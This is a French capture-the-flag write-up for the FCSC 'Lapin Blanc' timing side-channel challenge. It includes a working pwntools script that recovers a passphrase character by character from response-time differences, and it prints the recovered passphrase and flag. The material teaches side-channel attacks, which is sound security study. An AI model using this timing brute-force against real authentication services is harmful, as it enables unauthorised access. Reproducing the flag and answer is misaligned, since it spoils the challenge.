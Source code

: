 # Lapin Blanc

Last edited time: April 26, 2023 6:54 PM
Owner: Anonymous
Tags: Python, Side Channel
Verification: Verified

> **Titre du Challenge:** Lapin Blanc
> 
> 
> **Catégorie:** Side Channel & Faults Attack
> 
> **Difficulté : ⭐**
> 
> **Points:** 500
> 

**Énoncé —**

```jsx
Saurez-vous retrouver la phrase de passe pour accéder au pays des merveilles d'Alice ?

La porte n'est pas très patiente, vous n'avez que 10 minutes pour l'ouvrir. Bonne chance !

nc challenges.france-cybersecurity-challenge.fr 2350
```

**Résolution —**

En se connectant à la machine distante, on se retrouve donc face au prompt suivant : 

```jsx
[0000014057] Initializing Wonderland...
[0001326126] Searching for a tiny golden key...
[0001678195] Looking for a door...
[0001990278] Trying to unlock the door...

    __________________
    ||              ||
    ||   THE DOOR   ||
    ||              ||  .--------------------------.
    |)              ||  | What's the magic phrase? |
    ||              ||  /--------------------------'
    ||         ^_^  ||
    ||              ||
    |)              ||
    ||              ||
    ||              ||
____||____.----.____||_______________________________________

Answer:
```

On remarque tout de suite une information capitale au déroulement de notre attaque : le temps passé au moment de chaque print. En répondant au prompt, on remarque la même chose : 

```jsx
Answer: test
[0106404660] The door is thinking...
[0106407727] Your magic phrase is invalid, the door refuses to open.
Answer:
```

Ici `[0106404660] The door is thinking...` représente le temps passé au moment d’envoyer notre réponse et `[0106407727] Your magic phrase is invalid, the door refuses to open.`

le temps passé après que l’algorithme ai comparé notre envoi avec le vrai mot de passe.

**→ en soustrayant le premier temps au deuxième, on retrouve le temps pris par l’algorithme pour comparer notre envoi au mot de passe !**

Grâce à cette donnée, nous allons donc maintenant pouvoir tester différentes entrées et comparer le temps que prend l’algorithme pour chacune d’entre elles, essayons d’abord lettres par lettre : 

( Ce processus a été automatisé par un script que nous améliorerons plus bas ) 

```python
from pwn import remote
REMOTE = remote("challenges.france-cybersecurity-challenge.fr", 2350)
# on prend les cractères 32 à 126 de la table ascii.
myTable = [ chr(i) for i in range(32,127) ]
print(myTable)
cpt = 0
#### ON SKIP LE PREMIER PROMPT
received = REMOTE.recvuntil(b'Answer')
#### DES LE SECOND PROMPT, ON REPOND.
while cpt != len(myTable) : 
    lettre = chr(ord(myTable[0])+cpt)
    REMOTE.sendline(""+lettre)
    received = REMOTE.recvuntil(b'Answer')
    temps1 = int(received.decode().split('] The d')[0].split(': [')[1])
    temps2 = int(received.decode().split('] Your')[0].split('\n[')[1])
    cpt+=1
    print(f" Tentative {lettre} : {cpt} : T2-T1 : {temps2-temps1}")
```

Ce qui nous donne pour la première lettre : 

```python
...
 Tentative A : 34 : T2-T1 : 3076
 Tentative B : 35 : T2-T1 : 3071
 Tentative C : 36 : T2-T1 : 3075
 Tentative D : 37 : T2-T1 : 3079
 Tentative E : 38 : T2-T1 : 3067
 Tentative F : 39 : T2-T1 : 3020
 Tentative G : 40 : T2-T1 : 3073
 Tentative H : 41 : T2-T1 : 3074
 Tentative I : 42 : T2-T1 : 53148
 Tentative J : 43 : T2-T1 : 3023
 Tentative K : 44 : T2-T1 : 3072
 Tentative L : 45 : T2-T1 : 3071
 Tentative M : 46 : T2-T1 : 3072
 Tentative N : 47 : T2-T1 : 3077
 Tentative O : 48 : T2-T1 : 3066
...
```

On constate que le temps de réponse pour la lettre **`I`** est significativement plus élevé que pour toutes les autres lettres. La première lettre de la phrase de passe est donc un `**I**`. On automatise maintenant ( **Voir Exploit** ) le script afin que celui-ci procède au teste au fur et à mesure de la phrase complète.

On obtient le résultat suivant : 

```python
 Password :  I
 Password :  I'
 Password :  I'm
 Password :  I'm
...
 Password :  I'm late, I'm 
 Password :  I'm late, I'm l
 Password :  I'm late, I'm la
 Password :  I'm late, I'm lat
...
 Password :  I'm late, I'm late! For a very important d
 Password :  I'm late, I'm late! For a very important da
 Password :  I'm late, I'm late! For a very important dat
 Password :  I'm late, I'm late! For a very important date
 Password :  I'm late, I'm late! For a very important date!
 Flag : FCSC{t1m1Ng_1s_K3y_8u7_74K1nG_u00r_t1mE_is_NEce554rY}
```

La pass phrase était donc “ `I’m late, I’m late! For a very important date!`” 

Et le Flag : `FCSC{t1m1Ng_1s_K3y_8u7_74K1nG_u00r_t1mE_is_NEce554rY}`

**Exploit —**

```python
from pwn import remote,context

REMOTE = remote("challenges.france-cybersecurity-challenge.fr", 2350)

myTable = [ chr(i) for i in range(32,127) ] # on prend les cractères 32 à 126 de la table ascii.
myPasswordAndTimes = []
cpt = 0
myPassword = ""

#### ON SKIP LE PREMIER PROMPT
received = REMOTE.recvuntil(b'Answer')

#### DES LE SECOND PROMPT, ON REPOND.
REMOTE.recv()
while True:
    while cpt != len(myTable) : 
        try:
            lettre = chr(ord(myTable[0])+cpt)
            REMOTE.sendline(myPassword+lettre)
            received = REMOTE.recv()
            received2 = REMOTE.recv()

            if 'FCSC' in received2.decode() :
                print(" Flag : "+received2.decode().split(']')[1].strip()+"\n")
                break

            temps1 = int(received.decode().split('] The d')[0].split('[')[1])
            temps2 = int(received2.decode().split('] Your')[0].split('[')[1])
            ecartTemps = temps2-temps1
            cpt+=1
            myPasswordAndTimes.append([lettre,ecartTemps])
            #print(f" Tentative {lettre} : {cpt} : T2-T1 : {ecartTemps}")

            if (cpt == len(myTable)):
                tempList = [j for i,j in myPasswordAndTimes]
                myPassword = myPassword + myPasswordAndTimes[tempList.index(max(tempList))][0]
                myPasswordAndTimes = []
                print("\n Password : ",myPassword)
                cpt = 0
        except:
            exit()
```

@Noct 

---

**Références :**

[https://joshuanatan.medium.com/dam-ctf-2020-write-up-misc-d822ea2a2a42](https://joshuanatan.medium.com/dam-ctf-2020-write-up-misc-d822ea2a2a42)
[https://ctftime.org/writeup/24133](https://ctftime.org/writeup/24133)

[https://en.wikipedia.org/wiki/Side-channel_attack](https://en.wikipedia.org/wiki/Side-channel_attack)